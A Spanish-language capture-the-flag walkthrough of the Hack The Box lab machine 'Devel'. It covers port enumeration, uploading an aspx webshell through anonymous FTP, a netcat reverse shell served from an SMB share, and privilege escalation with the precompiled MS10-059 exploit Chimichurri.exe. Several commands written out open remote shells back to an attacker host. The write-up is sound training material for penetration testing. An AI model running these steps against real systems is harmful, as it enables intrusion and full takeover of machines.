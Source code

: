 # 🏳 Devel

<figure><img src="../../../../.gitbook/assets/Devel.png" alt=""><figcaption></figcaption></figure>

<table><thead><tr><th width="227">Datos</th><th width="288.3333333333333"> </th><th>Notas</th></tr></thead><tbody><tr><td>Nombre de la máquina: </td><td><a href="https://app.hackthebox.com/machines/3">Devel</a></td><td></td></tr><tr><td>IP de la máquina:</td><td>10.10.10.5</td><td></td></tr><tr><td>Sistema simulado: </td><td>Windows 7</td><td></td></tr><tr><td>Servicio vulnerado: </td><td></td><td></td></tr><tr><td>CVEs:</td><td><a href="https://www.cvedetails.com/microsoft-bulletin/ms10-059/">CVE 2010-2554</a></td><td><a href="https://learn.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-059">MS10-059</a></td></tr></tbody></table>

### 1. Enumeración y descubrimiento

Comenzamos enumerando todos los puertos de la máquina mediante NMAP y buscando que servicios se encuentran desplegados en la máquina. Recuerda que esta enumeración la podemos hacer sin filtros ya que estamos en un entorno controlado en el que no vamos a tirar a abajo ningún servicio o llamar la atención, es por ello que enumeramos de esta manera.

```bash
nmap -sC -sV -sT 10.10.10.5 -p-
```

<figure><img src="../../../../.gitbook/assets/30.png" alt=""><figcaption></figcaption></figure>

La máquina Devel como podemos ver es un Windows server 2008 en el que existen servicios montados en los puertos 21 (FTP) y 80 (HTTP). El FTP ya nos avisa nmap que es accesible mediante el usuario Anonymous por defecto.  Una vez realizado el primer paso de enumeración vamos a acceder al FTP y al HTTP para ver a que nos estamos enfrentando.

Comenzamos introduciendo el dominio devel.htb para acceder de manera sencilla. Para ello añadimos la IP y el dominio al archivo `/ect/hosts` . Una vez hecho esto podremos ver la siguiente pantalla.

<figure><img src="../../../../.gitbook/assets/31.png" alt=""><figcaption></figcaption></figure>

En este punto entramos en el servico FTP desplegado mediante el usuario "anonymous" que viene por defecto y listamos el directorio. Al verlo nos percatamos de la imagen welcome.png, la cual tras buscar devel.htb/welcome.png nos percatamos que es la imagen mostrada más arriba de bienvenida.&#x20;

<figure><img src="../../../../.gitbook/assets/32 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
La conexión al FTP mediante el usuario Anonymous es bastante inestable. Tenlo en cuenta ya que puede que te toque reconectarte al FTP en varias ocasiones.&#x20;
{% endhint %}

### 2. Explotación y escalada de privilegios

Posiblemente si subimos un archivo mediante el servicio FTP podamos visualizarlo en el HTTP, es por ello que vamos a hacer una prueba. Crearemos un archivo de texto plano en formato TXT y vamos a subirlo al servicio FTP.&#x20;

<figure><img src="../../../../.gitbook/assets/33 (1).png" alt=""><figcaption></figcaption></figure>

Una vez hecho esto en el navegador iremos a devel.htb/prueba.txt y observamos que se visualiza el archivo sin problema.&#x20;

<figure><img src="../../../../.gitbook/assets/34 (1).png" alt=""><figcaption></figcaption></figure>

En esta situación podemos descargarnos una WebShell de aspx que nos permita trabajar y ejecutar comandos en la máquina. Para ello en nuestro caso utilizaremos la `aspx_cmd.aspx` que se encuentra en la distribución de Kali en `/usr/share/davtest/backdoors` . Lo renombraremos como queramos y lo subiremos al FTP, tras ello consultaremos la web con el combre de la shell como hicimos en la prueba.

<figure><img src="../../../../.gitbook/assets/35 (1).png" alt=""><figcaption></figcaption></figure>

En este punto tendriamos una shell funcionando en el FTP con la cual podriamos empezar a trabajar. En este punto podemos seguir diferentes caminos como el uso de meterpreter, pero en nuestro caso lo que haremos es compartir el ejecutable de Netcat a la máquina mediante samba. Para ello usaremos:

```bash
impacket-smbserver smb /home/kali/Escritorio/devel.htb/smb
```

<figure><img src="../../../../.gitbook/assets/36 (1).png" alt=""><figcaption></figcaption></figure>

En este punto ejecutaremos desde el cmd que tenemos desplegado en la web una llamada a al netcat que hemos subido en nuestro SMB abriendo un netcat en nuestro puerto 1234 para recibir esta llamada. Recuerda localizar el fichero cmd de la máquina Devel.

```
\\[IP]\share\nc.exe -e c:\windows\system32\cmd.exe [IP] [PORT]
```

<figure><img src="../../../../.gitbook/assets/2 (12).png" alt=""><figcaption></figcaption></figure>

En ese momento habrás conseguido una shell por netcat en la que ya te podrás mover dentro de los directorios de manera sencilla. En este momento podremos ver ante que sistema nos estamos enfrentando desde dentro del mismo mediante `systeminfo` .

<figure><img src="../../../../.gitbook/assets/3 (16).png" alt=""><figcaption></figcaption></figure>

En este punto vamos a comprobar con esta información y versión de windows que exploits podemos ejecutar para vulnerar la máquina. Para ello utilizaremos [Windows Exploit Sugester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) el cual nos informará de varias vulnerabilidades que podremos explotar, entre ellas la que usaremos es la [MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799)](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-059) - Importante que se aprovecha del [CVE-2010-2254](https://www.cvedetails.com/microsoft-bulletin/ms10-059/).&#x20;

Nosotros para explotar esta vulnerabilidad pusaremos un exploit subido por el usuario egre55 llamado [Chimichurri.exe](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled) el cual viene precompilado y vulnera el kernel de la máquina, aunque también existen alternativas para la explotación con metasploit y algunos otros por internet.

Para esto subiremos el archivo Chimichurri.exe a nuestro servidor samba señalando a que IP debe devolver la Shell, en la cual levantaremos un puerto con netcat a la escucha.&#x20;

```bash
\\10.10.14.8\share\Chimichurri.exe [IP] [PORT]
```

<figure><img src="../../../../.gitbook/assets/7 (9).png" alt=""><figcaption></figcaption></figure>

Tras realizar esto conseguiríamos comprometer la máquina y tendríamos acceso a ella como administradores pudiendo visualizar las flags.

{% hint style="info" %}
Si te he ayudado sígueme y apóyame en [Hack The Box ](https://app.hackthebox.com/profile/819073)
{% endhint %}
